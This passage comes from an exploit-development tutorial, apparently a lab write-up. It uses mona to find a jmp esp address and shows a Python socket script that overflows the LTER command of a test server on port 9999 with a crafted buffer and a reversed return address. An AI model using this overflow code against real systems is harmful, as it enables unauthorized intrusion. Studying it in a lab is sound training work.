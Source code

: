 ![](/assets/images/CTP/corelanbaby.JPG)

Let's use the command `!mona jmp -r esp -cp ascii` and see what mona comes back with. 

![](/assets/images/CTP/monaowns.JPG)

Let's use the first one: `62501203`. Remember this has to be input into our script in reverse order because of our endianness. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

#jmp esp: 62501203

host = "192.168.1.201"
port = 9999

buffer = "A" * 2002
buffer += "\x03\x12\x50\x62"
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
